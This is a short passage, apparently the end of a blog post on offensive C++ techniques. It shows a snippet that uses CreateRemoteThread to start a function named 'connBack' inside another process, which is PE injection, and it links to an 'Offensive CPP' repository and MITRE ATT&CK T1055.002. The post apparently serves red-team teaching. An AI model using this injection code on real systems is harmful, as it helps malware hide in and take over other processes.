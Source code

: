 ```c++
HANDLE hThread = CreateRemoteThread(hRemote, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)connBack + delta), NULL, 0, NULL);

if(hThread == NULL){
    printf("%s Cannot create remote Thread\n", err);
    return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hRemote);
CloseHandle(hThread);

return EXIT_SUCCESS;
```

As always, the full code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github. Finally, I also provide a link to the [Mitre](https://attack.mitre.org/techniques/T1055/002/) IOCs.